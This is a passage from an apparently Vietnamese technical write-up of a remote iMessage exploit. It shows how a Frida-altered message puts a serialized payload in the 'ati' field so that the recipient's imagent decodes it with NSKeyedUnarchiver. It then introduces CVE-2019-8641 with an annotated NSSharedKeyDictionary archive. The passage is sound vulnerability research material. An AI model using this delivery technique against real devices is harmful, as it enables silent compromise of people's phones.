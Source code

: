 Công cụ Frida sẽ chỉnh sửa lại tin nhắn trước khi nó được đánh số, mã hóa và gửi đến server của Apple:

```objc
{
    gid = "008412B9-A4F7-4B96-96C3-70C4276CB2BE";
    gv = 8;
    p =     (
        "mailto:sender@foo.bar",
        "mailto:receiver@foo.bar”
    );
    pv = 0;
    r = "6401430E-CDD3-4BC7-A377-7611706B431F";
    t = "REPLACEME";
    v = 1;	
    x = "<html><body>REPLACEME</body></html>";
    ati = <content of /private/var/tmp/com.apple.messages/payload>;
}
```

Sau khi gửi, đoạn tin nhắn trên sẽ khiến cho tiến trình **imagent** của người nhận deocde dữ liệu trong *ati* bằng cách sử dụng NSKeyedUnarchiver API.

Tiếp theo, chúng ta sẽ sử dụng CVE-2019–8641 để tiến hành khai thác. Để hiểu rõ hơn về bug này, ta cần phải xem format serial của NSKeyedUnarchiver. Dưới đây là một archive đơn giản chứa serial NSSharedKeyDictionary (NSKeyedUnarchiver đã encode đối tượng trong graph thành *plist*):

```javascript
{
  "$archiver" => "NSKeyedArchiver"
  # The objects contained in the archive are stored in this array
  # and can be referenced during decoding using their index
  "$objects" => [
    # Index 0 always contains the nil value
    0 => "$null"
    # The serialized NSSharedKeyDictionary
    1 => {
      "$class" => <CFKeyedArchiverUID>{value = 7}
      "NS.count" => 0
      "NS.sideDic" => <CFKeyedArchiverUID>{value = 0}
      "NS.skkeyset" => <CFKeyedArchiverUID>{value = 2}
    }
    # The NSSharedKeySet associated with the dictionary    
    2 => {
      "$class" => <CFKeyedArchiverUID>{value = 6}
      "NS.algorithmType" => 1
      "NS.factor" => 3
      "NS.g" => <00>
      "NS.keys" => <CFKeyedArchiverUID>{value = 3}
      "NS.M" => 6
      "NS.numKey" => 1
      "NS.rankTable" => <00000000 0001>
      "NS.seed0" => 361949685
      "NS.seed1" => 2328087422
      "NS.select" => 0
      "NS.subskset" => <CFKeyedArchiverUID>{value = 0}
    }
    # The keys of the NSSharedKeySet 
    3 => {
      "$class" => <CFKeyedArchiverUID>{value = 5}
      "NS.objects" => [
        0 => <CFKeyedArchiverUID>{value = 4}
      ]
    }
    # The value of the first (and only) key
    4 => "the_key"
```
